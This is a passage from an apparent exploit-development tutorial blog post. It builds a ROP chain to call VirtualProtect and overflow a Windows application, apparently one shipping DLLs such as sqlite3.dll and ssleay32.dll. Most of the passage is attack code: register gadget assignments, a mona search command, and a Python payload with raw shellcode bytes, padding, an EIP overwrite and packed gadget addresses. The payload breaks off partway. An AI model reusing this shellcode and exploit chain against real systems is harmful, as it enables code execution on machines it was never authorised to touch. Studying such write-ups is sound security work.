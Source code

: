 
EBP -> Any gadget that will return the execution back to the stack


{% highlight nasm %}

POP EBP, RET
POP EBP, RET

{% endhighlight %}


EDI -> ROP NOP(JUNK)


{% highlight nasm %}

POP EDI, RET
RET

{% endhighlight %}


ESI -> Jump to EAX to execute VirtualProtect(). To get the pointer we will used mona again:


{% highlight bash %}

!mona find -type instr -s "JMP DWORD PTR DS:[EAX]" -m sqlite3.dll,ssleay32.dll,MSVCR71.dll,LIBEAV32.dll -cpb "\x00\x0a\x0d\x1a"

{% endhighlight %}


{% highlight nasm %}

POP ESI, RET
JMP DWORD PTR DS:[EAX] -> pointer

{% endhighlight %}

Using this information our final payload will be:

{% highlight py %}

import struct

#badchar 00 0a 0d 2f

shellcode = ("\xb8\x52\x06\xae\xde\xdb\xc8\xd9\x74\x24\xf4\x5d\x31\xc9\xb1"
"\x31\x31\x45\x13\x83\xc5\x04\x03\x45\x5d\xe4\x5b\x22\x89\x6a"
"\xa3\xdb\x49\x0b\x2d\x3e\x78\x0b\x49\x4a\x2a\xbb\x19\x1e\xc6"
"\x30\x4f\x8b\x5d\x34\x58\xbc\xd6\xf3\xbe\xf3\xe7\xa8\x83\x92"
"\x6b\xb3\xd7\x74\x52\x7c\x2a\x74\x93\x61\xc7\x24\x4c\xed\x7a"
"\xd9\xf9\xbb\x46\x52\xb1\x2a\xcf\x87\x01\x4c\xfe\x19\x1a\x17"
"\x20\x9b\xcf\x23\x69\x83\x0c\x09\x23\x38\xe6\xe5\xb2\xe8\x37"
"\x05\x18\xd5\xf8\xf4\x60\x11\x3e\xe7\x16\x6b\x3d\x9a\x20\xa8"
"\x3c\x40\xa4\x2b\xe6\x03\x1e\x90\x17\xc7\xf9\x53\x1b\xac\x8e"
"\x3c\x3f\x33\x42\x37\x3b\xb8\x65\x98\xca\xfa\x41\x3c\x97\x59"
"\xeb\x65\x7d\x0f\x14\x75\xde\xf0\xb0\xfd\xf2\xe5\xc8\x5f\x98"
"\xf8\x5f\xda\xee\xfb\x5f\xe5\x5e\x94\x6e\x6e\x31\xe3\x6e\xa5"
"\x76\x1b\x25\xe4\xde\xb4\xe0\x7c\x63\xd9\x12\xab\xa7\xe4\x90"
"\x5e\x57\x13\x88\x2a\x52\x5f\x0e\xc6\x2e\xf0\xfb\xe8\x9d\xf1"
"\x29\x8b\x40\x62\xb1\x62\xe7\x02\x50\x7b")

padding = "A" * 207
eip = struct.pack("<I",0x10013e29)
junk = "B" * 12
junk += struct.pack("<I",0x61e85f7a)

payload = padding + eip + junk 
#EBP
payload += struct.pack("<I",0x61e85f79)
payload += struct.pack("<I",0x61e85f79)
#EBX
payload += struct.pack("<I",0x61e05f4f)

[breaking-link]: https://court-of-testing-analysing.blogspot.com/2019/11/breaking-code-exploit-development.html
[ie-link]: https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/
[exploitdb-link]: https://www.exploit-db.com/exploits/46283